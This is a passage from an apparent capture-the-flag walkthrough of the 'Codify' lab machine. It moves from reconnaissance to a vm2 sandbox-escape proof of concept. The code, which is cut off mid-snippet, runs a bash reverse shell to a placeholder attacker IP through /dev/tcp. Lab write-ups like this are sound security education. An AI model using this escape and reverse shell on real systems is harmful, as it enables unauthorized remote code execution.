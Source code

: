 Looking at the results, we can see that port `22` (`SSH`), `80`, and `3000` are open. `80` is running `Apache httpd 2.4.52` and redirecting to `codify.htb`, where `3000` is `Node.js`.

I'll add `codify.htb` to my `/etc/hosts`.

```bash
echo '10.129.240.130 codify.htb' | sudo tee -a /etc/hosts
```

## Port 80 / 3000

Port **80** and **3000** are the same websites, but port **3000** is running as a proxy to the one on port **80**, likely for load balancing.
This can be confirmed after getting a shell and checking the `/etc/apache2/sites-enabled/000-default.conf` file.
I ran `ffuf` but found nothing interesting, so I moved on.

Looking at the page, we can see that it’s a JavaScript sandbox:
![](main_page.png)

Clicking on `Try it now` takes us to a `web editor` where we can test our code.

![](hi.png)

This page mentions that there are some limitations and links to `/limitations`. Looking at `/limitations`, it doesn't tell us a lot more but mentions some restricted `Node.js` modules. The restricted modules are `child_process` and `fs`. However, there is a whitelist of modules we can use:

![](limit.png)

Looking at `/about` reveals some interesting information about the library being used.

> The `vm2` library is a widely used and trusted tool for sandboxing JavaScript.

It also links to the actual repo of this [project](https://github.com/patriksimek/vm2). However, this project had been **discontinued** due to having critical vulnerabilities in it.

Looking over the Security tab on the GitHub repo, we can see a couple of critical vulnerabilities reported.

![](vulns.png)

## Shell as svc

As we saw earlier, we can run and test code on the website. Let's try one of the PoCs.
I'll use this [one](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).


```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/10.10.x.x/9001 0>&1'").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
```